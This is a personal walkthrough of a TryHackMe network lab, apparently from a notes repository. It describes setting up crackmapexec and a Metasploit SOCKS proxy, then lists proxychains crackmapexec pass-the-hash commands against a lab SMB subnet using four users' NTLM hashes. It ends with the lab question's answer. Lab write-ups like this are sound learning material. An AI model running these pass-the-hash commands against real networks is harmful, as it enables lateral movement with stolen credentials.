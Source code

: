 # Good Intentions, Courtesy of Microsoft 

Unfortunately I choose to solve a probelm by moving to the AttackBox for the remmina setup, but then crackmapexec was a massive pain to setup, I tried various methods so with all my proxychain and metsploit setup waiting to go I then could perform the exploit. Nevermind I added lots to my [Archive Respository](https://github.com/7RU7H/Archive). This took a very longtime I do not want to have sit through this again, possibly this is one of the weakness areas of TryHackMe, but I got loads coding and note formating done. I almost finished my LolbasFinder.ps1 script to check the existence of living off the land binaries on a Windows machine.

```bash
apt-get update
apt-get upgrade
apt install bloodhound
apt-get install amass python3-setuptools python3-tk python3-pip python3-dev
pip3 install impacket
apt install gem
```

Then I ran `locate impacket` after discovering it was already on the VM thankfully, which for some reason I thought it was not. Amusingly squished ascii art, but finally got this tool working.

[working](gi-working-cme.png)

Then had reinstall gem and and [reline](https://github.com/ruby/reline/)
```bash
cd /usr/share/metasploit-framework/vendor/bundle
bundle install
```

Got this error:
`'You have already activated thor 1.2.1, but your Gemfile requires thor 1.0.1. Prepending bundle exec to your command may solve this.'`

It feel sad to admit, this really was the wall in that pretty much ends the my attempt to only use TryHackMe VMs to complete this. Given that now I wouldnot be using the Attackbox or the Kali VM from THM there will be more of `this` and less screenshots. Also the approach for the proxying with metasploit as now I using msf6. Thanks to [gwillcox-r7](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/auxiliary/server/socks_proxy.md) for the Documentation.

```msfconsole
use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > options

Module options (auxiliary/server/socks_proxy):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   no        Proxy password for SOCKS5 listener
   SRVHOST   0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT   1080             yes       The port to listen on
   USERNAME                   no        Proxy username for SOCKS5 listener
   VERSION   5                yes       The SOCKS version to use (Accepted: 4a, 5)


Auxiliary action:

   Name   Description
   ----   -----------
   Proxy  Run a SOCKS proxy server
```

Add `socks5 	127.0.0.1 1080` to the proxycahin.conf file and comment out any anothers. I ran proxychains with four hases i have toggle here just in case:
```{toggle}
proxychains crackmapexec smb 10.200.102.0/24 -u admin-petersj -d THROWBACK.LOCAL -H 74fb0a2ee8a066b1e372475dcbc121c5

proxychains crackmapexec smb 10.200.102.0/24 -u PetersJ -d THROWBACK.local -H b81e7daf21f66ff3b8f7c59f3b88f9b6 

proxychains crackmapexec smb 10.200.102.0/24 -u BlaireJ -d THROWBACK.local -H c374ecb7c2ccac1df3a82bce4f80bb5b 

proxychains crackmapexec smb 10.200.102.0/24 -u HumphreyW -d THROWBACK.local -H 1c13639dba96c7b53d26f7d00956a364
```

![working](gi-crackmap-1.png)

Find all the output in this directory with the files starting "gi-pc-$username". Here is screenshot of it all working. 

![blaireJ](gi-crackmap-blairej.png)

## Answer

What two users could successfully pass the hash to THROWBACK-WS01? (In alphabetical order)
```{toggle}
BlaireJ, HumphreyW
```